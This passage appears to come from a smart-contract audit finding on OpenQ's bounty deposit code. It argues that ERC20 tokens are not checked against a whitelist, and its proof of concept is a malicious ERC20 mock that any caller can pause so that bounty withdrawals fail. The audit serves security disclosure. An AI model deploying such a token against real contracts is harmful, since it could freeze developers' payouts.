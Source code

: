However, the risk of the user injecting malicious NFT is low because the code in depositManager.sol  check if the NFT is whitelisted but does not check if the ERC20 token address is whitelisted when user fund the bounty contract.

```solidity
/// @notice Transfers NFT from msg.sender to bounty address
/// @param _bountyAddress The address of the bounty to fund
/// @param _tokenAddress The ERC721 token address of the NFT
/// @param _tokenId The tokenId of the NFT to transfer
/// @param _expiration The duration until the deposit becomes refundable
/// @param _data The tier of the NFT (not relevant for non-tiered bounties)
function fundBountyNFT(
    address _bountyAddress,
    address _tokenAddress,
    uint256 _tokenId,
    uint256 _expiration,
    bytes calldata _data
) external onlyProxy {
    IBounty bounty = IBounty(payable(_bountyAddress));

    require(isWhitelisted(_tokenAddress), Errors.TOKEN_NOT_ACCEPTED);
```

The POC below shows that malicious token can easily block developer's withdraw.

We assume that the mockLink is malicious and the mockDai is normal ERC20 token, we need to edit the MockLink

https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Mocks/MockLink.sol#L7

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

// Third party
import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

contract MockLink is ERC20 {

    address public admin;
    bool public paused = false;

    constructor() ERC20('Mock Link', 'mLINK') {
        _mint(msg.sender, 10000 * 10**18);
        admin = msg.sender;
    }

    function pause() external {
        paused = true;
    }

    function mint(uint256 amount) external {
        _mint(msg.sender, amount * 10 ** 18);
    }

    function _beforeTokenTransfer(address from, address to, uint256 amount)
        internal
        override
    { 
        require(paused == false, "transfer is paused!!! sorry!!!!");
        super._beforeTokenTransfer(from, to, amount);
    }

}
```
